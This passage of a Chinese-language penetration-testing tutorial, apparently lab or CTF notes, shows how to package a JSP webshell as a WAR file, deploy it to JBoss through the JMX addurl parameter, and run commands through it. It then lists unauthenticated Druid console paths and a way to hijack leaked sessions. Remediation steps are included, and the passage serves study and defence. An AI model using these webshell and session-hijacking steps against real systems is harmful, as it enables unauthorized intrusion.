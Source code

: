制作war包，开启http服务

```bash
F:\CTF\web\一句话>jar -cvf war.war 1.jsp 
Picked up JAVA_TOOL_OPTIONS: -Dfile.encoding=UTF-8 -Duser.language=en -Duser.contry=US
added manifest
adding: 1.jsp(in = 58) (out= 52)(deflated 10%)
F:\CTF\web\一句话>bash
root@NC:/mnt/f/CTF/web/一句话# python3 -m http.server 8000
```

通过addurl参数远程部署Shell

![img](https://img-blog.csdnimg.cn/img_convert/c618327d294687ca2c8e02d5eef3f2b9.png)

蚁剑连接或者访问`http://192.168.211.129:8080/war/1.jsp?pwd=023&i=whoami`执行命令

## 漏洞修复

1. 添加 JMX 控制页面身份认证； 
2. 进行JMX Console 安全配置；
3. 关闭jmx-console和web-console

# Druid未授权访问

druid是阿里研发的一款数据库连接池，其开发语言为java，druid集合了c3p0、dbcp、proxool等连接池的优点， 还加入了日志监控、session监控等数据监控功能，使用Druid能有效的监控DB池连接和SQL的执行情况。druid虽高效好用，但当开发者配置不当时就可能造成未授权访问，攻击者可利用泄露的Session登录后台

Druid未授权访问路径

```
/druid/index.html
/druid/sql.html
/druid/weburi.html
/druid/websession.html
/druid/weburi.json
/druid/websession.json
```

常见登录口路径

```
/druid/login.html
/system/druid/login.html
/webpage/system/druid/login.html
```

## 漏洞利用

未授权的访问界面，关注Session监控和URI监控这两个地方

![img](https://pic2.zhimg.com/80/v2-ae891e03879c0f7f61688cc42e590f0d_720w.jpg)

在Session监控中找到session了，尝试登录的时候替换session会有什么效果，在URI监控找到后台登录地址
